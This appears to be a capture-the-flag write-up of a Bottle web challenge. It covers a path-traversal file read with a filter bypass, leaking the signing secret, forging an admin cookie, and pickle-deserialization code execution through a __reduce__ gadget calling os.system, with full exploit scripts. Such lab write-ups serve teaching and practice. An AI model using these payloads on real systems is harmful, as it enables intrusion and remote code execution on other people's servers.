
# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem

![](../media/screenshot3.png)

# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`

![url](../media/Prompt_Injection_url.png)

the value of `id` is a filename, so let's try if the server has a lfi vulnerbility

![screenshot](../media/lfi.png)

the server is indeed vurlnable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front

![app filter](../media/app_filter.png)

```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it

![leaking secret.py](../media/leaking_secret.png)

now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`

![admin_cookie](../media/admin_cookie.png)

using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates

![template](../media/guest_temp.png)
![template](../media/admin_temp.png)
![template](../media/index_temp.png)

i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the mulishous cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result

![](../media/screenshot.png)

we find that there is a `flag` file in the `/` directory, it only has executing permisions

![](../media/screenshot2.png)

and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```

![](../media/flag.png)